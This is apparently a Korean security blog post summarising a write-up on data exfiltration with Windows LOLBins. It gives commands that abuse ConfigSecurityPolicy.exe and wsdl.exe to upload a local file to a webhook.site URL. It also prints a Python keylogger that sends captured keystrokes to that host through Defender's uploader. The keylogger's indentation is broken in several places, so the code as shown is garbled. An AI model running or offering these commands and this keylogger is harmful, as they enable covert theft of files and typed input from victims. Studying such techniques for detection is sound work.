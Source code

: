 ```yaml
---
title: "[하루한줄] Data Exfiltration with LOLBins"
author: idioth
tags: [idioth, lolbins, data exfiltration, microsoft]
categories: [1day1line]
date: 2021-07-22 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL 

[Data Exfiltration with LOLBins](https://debugactiveprocess.medium.com/data-exfiltration-with-lolbins-4d9c6e43dacf)



## Target

- Windows



## Explain

Living off the land (LOL)은 시스템에 미리 설치된 신뢰할 수 있는 프로그램을 사용하여 악성코드를 전파하는 기법입니다. LOL에는 Windows 바이너리를 사용하여 악성 행위를 숨기는 LOLBins, 라이브러리를 사용하는 LOLLibs, 스크립트를 사용하는 LOLScripts 등의 다양한 기술이 있습니다. LOL에 관한 많은 트릭들은 [LOLBAS 프로젝트](https://lolbas-project.github.io/)에서 확인하실 수 있습니다.

Microsoft Windows Defender의 `ConfigSecurityPolicy.exe`를 통해 데이터를 유출할 수 있는 방법이 발견되었습니다.

```
ConfigSecurityPolicy.exe C:\temp\config.xml "https://webhook.site/4bce19be-2642-4f76-9e8e-7aea1448322d?sensitive_data"
```

위의 코드를 통해 `webhook.site`에 `C:\temp\config.xml` 파일이 `sensitive_data` 파일로 업로드된 후 해당 파일을 확인할 수 있습니다.

또한 .NET Framework development environment에서 웹 서버 프록시를 생성할 수 있는 Microsoft Web Services Description Language Utility인 `wsdl.exe`를 통해 클라이언트 프록시를 생성하여 데이터를 유출할 수 있습니다.

```
wsdl.exe /server ttps://webhook.site/4bce19be-2642-4f76-9e8e-7aea1448322d?sensitive_data
```

해당 LOLBins를 통해 Windows defender의 로그를 추출하여 키로깅도 할 수 있습니다.

```
# From: https://github.com/moses-palmer/pynput
from pynput.keyboard import Key, Listener
import os
import sys
import subprocess
URL = 'https://webhook.site/xxxxxx-xxxxx-xxxx-xxxxx-xxxxxxx'
uploader = "C:\\ProgramData\\Microsoft\\Windows Defender\\Platform\\4.18.2008.9-0\\ConfigSecurityPolicy.exe"
content = ""
def on_press(key):
    global content
    global URL
    global uploader
    if str(key) == 'Key.backspace':
        content += ' '
    else:
        content += str(key)
print(f'last key: {str(key)}')
    print("")
if str(key) == 'Key.enter':
        upload_url = (f'{URL}?{content}')
        subprocess.call([uploader, 'c:\\temp\\test.xml', upload_url])
        buffer = ''
if key == 0x03:
        sys.exit(0)
if __name__ == "__main__":
    try:
        with Listener(on_press=on_press) as listener:
            listener.join()
    except (KeyboardInterrupt, SystemExit):
        sys.exit(0)
```

